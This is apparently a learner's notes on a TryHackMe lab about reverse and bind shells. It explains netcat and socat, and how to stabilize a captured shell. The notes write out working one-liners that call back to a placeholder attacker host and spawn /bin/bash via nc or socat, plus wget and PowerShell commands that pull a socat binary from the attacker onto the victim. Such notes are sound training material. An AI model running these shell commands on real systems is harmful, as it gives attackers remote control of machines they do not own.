 # TryHackMe: Complete Beginner

## What the Shell?

### What Is a Shell?

Terminology:

* REVERSE SHELLS are shells where the target is forced to connect back to the attacker.
* BIND SHELLS are shells bound to a port on the target that the attacker can connect to later.

### Tools

Typical tools for creating reverse shells or connecting to bind shells:

* `netcat` (`nc`) is present on just about every UNIX-like system. It can do just about everything, but can be a little bit unstable when constructing reverse shells.
* `socat` is a more versatile, more stable netcat. Unfortunately, it is rarely installed out-of-the-box.
* `auxilary/multi/handler` is the netcat/socat equivalent in [Metasploit](../notes/metasploit.md). It is the only way to interact with the Meterpreter attack shell, and has built-in support for staged payloads.
* `msfvenom` is a stand-alone version of multi/handler. It can also generate reverse shell payloads.

Useful sites:

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Also check out /usr/share/webshells on Kali Linux.

### Types of Shells

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

Most initial reverse shells (in particular web shells) are non-interactive.

### Netcat

While binding to well-known ports requires the use of sudo, it’s also less likely to get flagged/blocked by intermediate firewalls.

### Netcat Shell Stabilization

One thing that causes a reverse shell to be non-interactive is when its running in a shell itself. It’s generally possible to stabilize these and get a fully interactive shell on UNIX-like systems:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

You can *mostly* bypass the need for the `stty` command by using `rlwrap`, which sets all of this up for you (though it doesn’t redirect control sequences, so Ctrl+C will still kill the connection).

It’s also possible to upgrade to a socat-powered shell, assuming that you have a statically-compiled version of socat. Typically, the way that you’d transfer this binary is by first [spinning up a simply webserver](../notes/quick-n-dirty-python-web-server.md) in the directory with your socat binary on the attack machine, and then downloading that binary to the vicitim.

* UNIX LIKE: `wget $ATTACKER_IP/socat -O /tmp/socat`
* WINDOWS (POWERSHELL): `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

### Socat

Socat: Just an anything-to-anything connector!

| Role                     | netcat                                   | socat                                                  |
|:------------------------ |:---------------------------------------- |:------------------------------------------------------ |
| Reverse shell (attacker) | `nc -lnp $LISTENER_PORT`                    | `socat TCP-LISTEN:$LISTENER_PORT -`                       |
| Reverse shell (target)   | `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash` | `socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li"` |
| Bind shell (attacker)    | `nc $TARGET_IP $LISTENER_PORT`              | `socat TCP:$TARGET_IP:$LISTENER_PORT`                      |
| Bind shell (target)      | `nc -lnp $LISTENER_PORT -e /bin/bash`        | `socat TCP-LISTEN:$LISTENER_PORT EXEC:"/bin/bash -li"`      |

This gets us an interactive login shell right out the gate, though we’re still vulnerable to Ctrl+C. Note that when binding to PowerShell, use `powershell.exe,pipes` in order to force PowerShell to use UNIX-style STDIN/STDOUT.

We can use socat to create an auto-stabilized reverse shell on UNIX-like systems (though we will still need to use `stty` to set rows/columns).

```bash
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo. Basically
# the `stty raw -echo`.
#
socat TCP-LISTEN:$LISTENER_PORT FILE:`tty`,raw,echo=0

# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
#     pty    - allocate a PTTY
#     stderr - redirect STDERR to the attacker
#     sigint - pass signals (Ctrl+C) through
#     setsid - use a new session
#     sane   - use a variety of tweaks to “normalize” the
#              terminal’s environment
#
socat TCP:$ATTACKER_IP:$LISTENER_PORT EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

NOTE that it’s perfectly acceptable to kick off a socat process from inside a netcat process!

- - - -

👤 Nathan Acks
📅 October 27, 2021

